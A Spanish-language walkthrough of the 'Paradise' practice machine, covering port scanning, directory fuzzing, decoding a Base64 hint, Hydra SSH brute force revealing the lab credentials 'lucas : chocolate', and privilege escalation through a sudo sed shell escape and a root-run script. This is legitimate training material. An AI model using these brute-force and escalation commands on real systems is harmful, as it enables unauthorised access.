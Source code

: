 # Informe de Pentesting - Máquina Paradise

* **Nombre de la máquina:** Paradise
* **Nivel de dificultad:** Fácil
* **Propósito:** Práctica de técnicas básicas de reconocimiento, enumeración, decodificación, ataque por fuerza bruta y escalada de privilegios en un entorno controlado.
  
![Logo](Imagenes/Logo.png)

---

## 1. Despliegue de la Máquina

Descargamos el archivo comprimido `paradise.zip` y lo descomprimimos con:

```bash
unzip paradise.zip
```

Posteriormente, se despliega la máquina con el siguiente script:

```bash
sudo bash auto_deploy.sh paradise.tar
```

![Despliegue](Imagenes/Despliegue.jpeg)

Confirmamos que la máquina está activa con un `ping` a la dirección IP:

```bash
ping -c 4 172.17.0.2
```

![Ping](Imagenes/Ping.jpeg)

---

## 2. Reconocimiento de Puertos

Realizamos un escaneo completo de puertos para identificar cuáles están abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos abiertos](Imagenes/Puerto.jpeg)

Usamos nuestro script personalizado `extractPorts` para extraer los puertos relevantes y luego analizamos los servicios corriendo en ellos:

```bash
nmap -sC -sV -p 22,80,139,445 172.17.0.2 -oN target.txt
```

![Servicios detectados](Imagenes/Servicios.jpeg)

---

## 3. Enumeración Web

Al acceder al navegador, encontramos una página web que sirve como punto de entrada:

![Página principal](Imagenes/Pagina.jpeg)

Realizamos *fuzzing* con **Gobuster** para encontrar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](Imagenes/Gobuster.jpeg)

Estos fueron los directorios y archivos detectados:

* `/index.html`
  ![index.html](Imagenes/indexhtml.jpeg)

* `/img`
  ![img](Imagenes/img.jpeg)

* `/login.php`
  ![login.php](Imagenes/loginphp.jpeg)

* `/galery.html`
  ![galery.html](Imagenes/galeryhtml.jpeg)

* `/booking.html`
  ![booking.html](Imagenes/booking.jpeg)

---

## 4. Análisis del Código Fuente

Al revisar el código fuente de la página, encontramos un mensaje en Base64:

```text
ZXN0b2VzdW5zZWNyZXRvCg==
```

![Base64 encontrado](Imagenes/base64.jpeg)

Lo decodificamos en Bash:

```bash
echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 --decode
```

El resultado fue:

```text
estoesunsecreto
```

![Decodificación](Imagenes/descodificar.jpeg)

Probamos si esta cadena correspondía a una ruta y descubrimos un nuevo directorio oculto:

```text
http://172.17.0.2/estoesunsecreto/
```

![Directorio secreto](Imagenes/estoesunsecreto.jpeg)

Dentro había un archivo `.txt` con un mensaje que indicaba que se debía cambiar la contraseña por ser débil. También se menciona el nombre del usuario **lucas**, lo que sugiere que podría ser un usuario válido en el sistema.

![Usuario lucas](Imagenes/lucas.jpeg)

---

## 5. Fuerza Bruta con Hydra

Probamos con fuerza bruta utilizando **Hydra** para intentar acceder vía SSH como el usuario *lucas*.

```bash
hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

Encontramos la contraseña:

```text
lucas : chocolate
```

![Hydra resultado](Imagenes/hydra.jpeg)

---

## 6. Escalada de Privilegios a Usuario Andy

Una vez dentro como lucas vía SSH:

```bash
ssh lucas@172.17.0.2
```

![SSH acceso](Imagenes/ssh.jpeg)

Descubrimos que lucas puede ejecutar el comando `/bin/sed` como el usuario andy sin necesidad de contraseña (NOPASSWD):

```bash
sudo -l
```

Aprovechamos esto para escalar privilegios a andy:

```bash
sudo -u andy /bin/sed -n '1e exec /bin/bash' /etc/hosts
```

![Escalada a andy](Imagenes/escala.jpeg)

---

## 7. Escalada de Privilegios a Root

Buscamos archivos que sean modificables por andy y que puedan ser ejecutados con privilegios de root:

```bash
find / -writable -user andy 2>/dev/null
```

Encontramos el script: `/usr/local/bin/privileged_exec`

Lo ejecutamos, lo que nos otorgó acceso como root.

![Escalada final](Imagenes/escala2.jpeg)

---

## 8. Conclusión

Esta máquina nos permitió practicar técnicas esenciales como:

* Escaneo y enumeración de servicios.
* Fuzzing de directorios.
* Decodificación de información oculta.
* Ataques por fuerza bruta.
* Escalada de privilegios con uso de binarios vulnerables y análisis de permisos.
